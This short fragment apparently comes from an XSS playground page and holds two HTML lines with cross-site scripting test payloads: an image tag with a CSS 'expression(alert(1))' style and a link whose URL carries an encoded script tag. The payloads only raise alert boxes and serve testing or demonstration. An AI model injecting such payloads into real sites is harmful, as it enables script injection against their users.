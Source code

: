 <img src="http://xssplayground.net23.net/xssimagefile2.svg" style="width:expression(alert(1))">
<a href="http://xssplayground.net23.net/xssimagefile2.svg?xss=%3cscript%3ealert%28location%29%3c%2fscript%3e" style="width:expression(alert(1))">click</a>
